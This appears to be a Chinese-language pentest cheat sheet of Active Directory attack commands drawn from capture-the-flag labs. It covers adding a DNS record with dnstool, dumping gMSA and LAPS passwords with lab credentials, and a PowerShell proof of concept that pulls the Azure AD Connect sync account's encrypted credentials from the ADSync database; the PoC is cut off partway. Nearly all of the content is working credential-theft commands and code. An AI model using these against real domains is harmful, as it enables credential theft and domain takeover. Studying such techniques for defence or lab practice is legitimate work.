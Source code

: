 ## 添加dns记录

```
https://github.com/4ndr34z/krbrelayx.git

添加主机dns记录：
python dnstool.py -u 'intelligence\Tiffany.Molina' -p NewIntelligenceCorpUser9876 10.10.10.248 -a add -r web1 -d 10.10.16.18 -t A
```

## ReadGMSAPassword权限

```
python gMSADumper.py -u 'Ted.Graves' -p 'Mr.Teddy' -d 'intelligence.htb'
```

## ReadLAPSPassword

```
https://github.com/p0dalirius/pyLAPS
python pyLAPS.py --action get -d "hutch.offsec" -u "fmcSorley" -p "CrabSharkJellyfish192" --dc-ip 192.168.224.122

默认获取为administrator密码
```

## Azure AD (AAD) Sync service攻击

```
查询注册表，服务路径：
Get-Item -Path HKLM:\SYSTEM\CurrentControlSet\Services\ADSync

通过路径确定版本：
Get-ItemProperty -Path "C:\Program Files\Microsoft Azure AD Sync\Bin\miiserver.exe"|Format-list -Property * -Force

从数据库中提取信息：
sqlcmd -S MONTEVERDE -Q "use ADsync; select instance_id,keyset_id,entropy from mms_server_configuration"

poc:
Function Get-ADConnectPassword{
Write-Host "AD Connect Sync Credential Extract POC (@_xpn_)`n"
$key_id = 1
$instance_id = [GUID]"1852B527-DD4F-4ECF-B541-EFCCBFF29E31"(修改)
$entropy = [GUID]"194EC2FC-F186-46CF-B44D-071EB61F49CD"（修改）
$client = new-object System.Data.SqlClient.SqlConnection -ArgumentList "Server=MONTEVERDE;Database=ADSync;Trusted_Connection=true"
$client.Open()
$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent WHERE ma_type = 'AD'"
$reader = $cmd.ExecuteReader()
$reader.Read() | Out-Null
$config = $reader.GetString(0)
$crypted = $reader.GetString(1)
$reader.Close()
add-type -path 'C:\Program Files\Microsoft Azure AD Sync\Bin\mcrypt.dll'
$km = New-Object -TypeName Microsoft.DirectoryServices.MetadirectoryServices.Cryptography.KeyManager
$km.LoadKeySet($entropy, $instance_id, $key_id)
$key = $null
$km.GetActiveCredentialKey([ref]$key)
$key2 = $null
```